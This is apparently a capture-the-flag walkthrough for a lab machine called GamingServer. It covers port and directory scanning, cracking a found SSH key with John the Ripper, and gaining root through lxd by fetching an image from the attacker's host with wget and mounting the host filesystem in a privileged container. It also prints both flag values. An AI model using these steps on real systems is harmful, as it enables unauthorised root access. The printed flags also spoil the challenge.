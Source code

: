 # GamingServer

### #1 	User flag?

Start off with a port scan.
```
nmap -sV -sC <ip>
22/tcp open  ssh
80/tcp open  http
```

Run a scan on the webserver
```
dirbuster

Dir	/secret/	200	1127
File	/secret/secretKey	200	2001
Dir	/uploads/	200	1530
File	/uploads/dict.lst	200	2433
File	/uploads/manifesto.txt	200	3387
```

Using ssh2john
```
ssh2john.py id_rsa theConvertedRsaFile.txt
```
Crack the ssh key with John The Ripper with the password list we found earlyer.
```
sudo john theConvertedRsaFile.txt dict.lst
```

It returned with the password:
```
letmein 
```
Connect to the ssh server using the username and key.
```
ssh -i id_rsa john@<ip>
```
Use the password we got with JohnTheRipper and we're in.

```
cat /home/john/user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

### #2 What is the root flag?

Check what we can do as root
```
sudo -l
```

lxd is exposed, so we create a image with alpine.

Host a webserver at the attack shell.
```
python3 -m http.server
```
Use wget to download the image we created
```
wget <myip>:8000/theImage.tar.gz
```

After we have downloaded the image, exploit lxc.
```
lxc image import filename --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

We are now root and can cat out the root flag. Remember we are still inside the container so the filesystem is inside /mnt/root
```
cat mnt/root/root/root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
